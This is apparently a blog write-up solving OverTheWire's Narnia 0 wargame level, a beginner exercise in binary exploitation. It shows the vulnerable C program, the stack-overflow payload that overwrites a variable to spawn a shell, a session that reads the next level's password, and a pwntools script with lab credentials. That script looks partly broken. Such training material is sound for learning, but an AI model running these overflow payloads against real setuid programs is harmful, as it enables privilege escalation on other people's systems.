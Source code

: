 ```yaml
---
layout: post
title:  "Overthewire - Narnia 0-4"
date:   2020-04-26 15:07:19
categories: [Binary Exploitation]
comments: true
---
```


This blogpost contains the solutions for Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire.

## Narnia 0
```c++

#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
From the code it's clear we need to give val the value of 0xdeadbeef to get a shell as narnia1 user.
By observing the code we can spot the issue from scanf() function. The scanf() is used to get the input for buffer buff. and this function have no bound checkings on input,buf variable is 20 bytes long but the scanf reads in 24 bytes hence we can overwrite the variable “val” with any value we like.
```

```bash
file narnia0
narnia0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0840ec7ce39e76ebcecabacb3dffb455cfa401e9, not stripped
```
Our target binary is an ELF 32-bit binary.ELF is Executable Linkable Format which consists of a symbol look-ups and relocatable table, that is, it can be loaded at any memory address by the kernel.

### Exploitation

Let's send some crafted inpu to the program and observe 

```python
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "CCCC"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAACCCC
val: 0x43434343
WAY OFF!!!!
narnia0@narnia:/narnia$ 
```
Great we have overwritten the val variable with 0x43434343 which is our 4 "C". Now we know we can overite the val variable . We just need to replace "C" with 0xdeadbeef which is the correct value the program accept. Before that we need to convert 0xdeadbeef to little endian format as we are on little endian machine.
> 0xdeadbeef to little endian "\xef\xbe\xad\xde".

### Grabbing the flag:

```python
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

> Full exploit


```python
from pwn import *

context(arch='i386', os='linux')
context.log_level = 'debug'
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', port=2226, password='narnia0')
sh = s.run('/narnia/narnia0')
payload = ""
payload = 'A'*20 + '\xef\xbe\xad\xde'
s.sendline(payload)
sh.recvline(s)
s.sendline('cat /etc/narnia_pass/narnia1')
sh.recvline(sh)
```

### Conclusion 
Running the above command give us a shell as narnia1, now we can cat the flag. This is a very simple buffer overflow example, i will doing next challenge Narnia1 soon.



